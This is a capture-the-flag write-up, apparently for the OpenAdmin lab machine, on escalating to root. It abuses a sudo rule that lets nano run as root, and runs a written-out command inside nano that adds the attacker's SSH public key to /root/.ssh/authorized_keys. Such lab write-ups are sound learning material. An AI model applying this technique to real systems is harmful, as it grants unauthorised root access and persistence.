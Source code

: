 # Privilege Escalation to root
User joanna can run following commands as sudo.
```bash
$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
When executed `sudo /bin/nano /opt/priv` , nano editor is opened which can read and execute commands as root. So running nano as sudo kali(my machine) public key can be copied to /root/.ssh/authorized keys and then can be ssh logged in as root. Procedure is shown below.
Nano is opened after executing `sudo /bin/nano /opt/priv`.
![[Pasted image 20210707064026.png]]
While being in nano, `Ctrl+r`  can be used to read files and `Ctrl+r then Ctrl+x` can be used to execute commands. So kali machine(my machine)'s public key can be copied to victim's machine(openadmin machine) by using `echo "[public-key]" > /root/.ssh/authorized_keys` command
![[Pasted image 20210707064647.png]]
Verified that public key copied in `/root/.ssh/authorized_keys` after reading `/root/.ssh/authorized_keys` while in nano.
![[Pasted image 20210707065009.png]]
Now ssh logged in as root on openadmin machine.
![[Pasted image 20210707065313.png]]


